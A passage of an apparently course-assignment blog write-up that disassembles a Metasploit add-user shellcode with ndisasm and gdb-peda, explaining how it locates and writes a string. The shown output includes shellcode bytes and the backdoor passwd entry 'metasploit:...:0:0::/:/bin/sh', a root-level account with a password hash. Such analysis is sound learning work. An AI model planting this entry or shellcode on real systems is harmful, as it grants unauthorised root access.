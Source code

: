 <p style="text-align:justify;">if we look closely at the snippet below we see the above hexadecimal values presented in the second column of the <strong>ndisasm</strong> output</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">00000052 0A<span style="color:#ff0000;">598B</span> or bl,[ecx-0x75] 
00000055 <span style="color:#ff0000;">51</span>     push ecx 
00000056 <span style="color:#ff0000;">FC</span>     cld 
00000057 <span style="color:#ff0000;">6A04</span>   push byte +0x4 
00000059 <span style="color:#ff0000;">58</span>     pop eax 
0000005A <span style="color:#ff0000;">CD80</span>   int 0x80 
0000005C <span style="color:#ff0000;">6A01</span>   push byte +0x1 
0000005E <span style="color:#ff0000;">58</span>     pop eax 
0000005F <span style="color:#ff0000;">CD80</span>   int 0x80</pre>
<p style="text-align:justify;">in such case we can also use python to convert the opcodes in ASCII text in order to reveal the assembly code</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment5</b></span># echo -ne "\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -b 32 -p intel -
00000000 59     pop ecx
00000001 8B51FC mov edx,[ecx-0x4]
00000004 6A04   push byte +0x4
00000006 58     pop eax
00000007 CD80   int 0x80
00000009 6A01   push byte +0x1
0000000B 58     pop eax
0000000C CD80   int 0x80</pre>
<p style="text-align:justify;">The <strong>pop ecx</strong> instruction above will store the string in <strong>ecx</strong> register</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><strong>metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh</strong></pre>
<p style="text-align:justify;">Also from <strong>gdb-peda </strong>we get the output below</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">gdb-peda$ x/s $ecx
0x40406b &lt;shellcode+43&gt;: "<span style="color:#ff0000;">metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh</span>\nY\213Q\374j\004X\315\200j\001X\315\200"</pre>
<p style="text-align:justify;">Then the instruction <strong>mov edx, [ecx-0x4]</strong> will move the value <strong>0x28 </strong>into<strong> edx </strong>register</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><strong>mov edx,[ecx-0x4]       <span style="color:#33cccc;">; move 0x28 into edx register </span></strong></pre>
<p style="text-align:justify;">In detail, if we check the <strong>ndisasm</strong> output we see that the instruction right after the <strong>call 0x53</strong> instruction appears to be at offset <strong>0000002B</strong>. Moreover, the<strong> ecx</strong> register after the <strong>pop ecx</strong> instruction holds the opcodes at offset <strong>0000002B</strong> because as we know the <strong>call</strong> instruction pushes the memory address of the next instruction on the stack. The<strong> edx </strong>register will now hold the contents in memory address<strong> 00000027</strong> <strong>( 0x2B - 0x4 ). </strong>Also from <strong>gdb</strong> we can confirm that <strong>0x28</strong>&nbsp;is present in <strong>[ecx-4]</strong> as seen below</p>